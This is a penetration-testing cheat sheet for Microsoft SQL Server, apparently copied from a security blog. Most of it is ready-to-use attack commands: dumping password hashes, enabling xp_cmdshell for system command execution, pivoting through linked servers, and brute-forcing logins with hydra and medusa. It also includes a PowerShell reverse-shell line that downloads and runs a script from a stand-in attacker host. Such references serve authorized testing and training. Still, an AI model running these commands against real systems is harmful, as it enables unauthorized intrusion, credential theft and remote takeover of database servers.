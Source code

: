 > Notes copied from [routezero.security](https://routezero.security/2025/03/29/mssql-cheat-sheet-for-penetration-testers/)

Microsoft SQL Server (MSSQL) is a common target in penetration testing due to misconfigurations, weak credentials, and privilege escalation opportunities. This cheat sheet provides enumeration techniques, privilege escalation methods, and exploitation tactics useful for pentesters and red teamers.

---

## 1. Connecting to MSSQL

**Using** `**sqsh**` **(Linux)**

```
sqsh -S target-ip -U user -P password
```

Connects to an MSSQL server using a specified username and password.

**Using** `**impacket-mssqlclient**`

```
python3 mssqlclient.py DOMAIN/user:password@target-ip
```

Connects to MSSQL using Impacket’s `mssqlclient.py`.

**Using PowerShell (Windows)**

```
sqlcmd -S target-ip -U user -P password
```

Connects using `sqlcmd`.

---

## 2. Enumerating MSSQL

**Checking MSSQL Version**

```
SELECT @@VERSION;
```

Retrieves MSSQL version information.

**Listing Databases**

```
SELECT name FROM master.dbo.sysdatabases;
```

Displays all available databases.

**Listing Tables**

```
SELECT name FROM database_name.sys.tables;
```

Lists tables in a specific database.

**Listing Users**

```
SELECT name FROM master.sys.syslogins;
```

Retrieves all users.

**Checking Privileges**

```
SELECT is_srvrolemember('sysadmin');
```

Checks if the current user has `sysadmin` privileges.

---

## 3. Credential Hunting & Privilege Escalation

**Finding Stored Credentials**

```
SELECT name, password_hash FROM sys.sql_logins;
```

Retrieves stored password hashes (if accessible).

**Enabling** `**xp_cmdshell**` **for Command Execution**

```
EXEC sp_configure 'show advanced options', 1; RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
```

Enables `xp_cmdshell` to execute system commands.

**Executing System Commands with** `**xp_cmdshell**`

```
EXEC xp_cmdshell 'whoami';
```

Runs system commands with MSSQL privileges.

---

## 4. Exploiting MSSQL for Lateral Movement

**Using MSSQL for Reverse Shell**

```
EXEC xp_cmdshell 'powershell -c "IEX (New-Object Net.WebClient).DownloadString('http://attacker-ip/rev.ps1')"';
```

Executes a PowerShell-based reverse shell.

**Abusing MSSQL Linked Servers**

```
EXEC sp_linkedservers;
```

Lists linked servers (potential pivoting points).

**Executing Commands on Linked Servers**

```
EXEC ('whoami') AT linked_server_name;
```

Runs commands on a linked MSSQL server.

---

## 5. Brute-Forcing MSSQL Credentials

**Using** `**hydra**`

```
hydra -L users.txt -P passwords.txt mssql://target-ip
```

Attempts brute-force login.

```
medusa -h target-ip -U users.txt -P passwords.txt -M mssql
```

Alternative brute-force attack.